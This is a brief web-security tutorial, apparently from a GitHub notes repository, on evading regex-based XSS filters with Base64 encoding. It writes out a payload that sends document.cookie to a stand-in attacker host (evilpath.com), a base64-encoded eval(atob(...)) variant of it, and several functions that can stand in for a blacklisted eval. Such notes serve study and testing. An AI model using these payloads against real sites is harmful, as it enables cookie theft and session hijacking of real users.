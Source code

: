 Most web application uses a Regex-based filtering system that searches for malicious strings. A possible way to escape/evade these type of filters is by using Base64 encoding.

For example, the following payload will be detected by the filtering system, because `document.cookie` may be a sign that someone is attempting to steal a cookie:
```txt
location.href = 'http://evilpath.com/?c='+escape(document.cookie)
```

Using Base64 encoding, we can hide `document.cookie`
code translating the payload into:
```txt
eval(atob(bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk=))
```

In the event the `eval` function is blacklisted, the following functions can be used as an alternative:
- `[].constructor.constructor('BASE_64_ENCODED_PAYLOAD')()`
- `setTimeout('BASE_64_ENCODED_PAYLOAD')`
- `setInterval('BASE_64_ENCODED_PAYLOAD')`
- `setImmediate('BASE_64_ENCODED_PAYLOAD')`
- `Function('BASE_64_ENCODED_PAYLOAD')()`
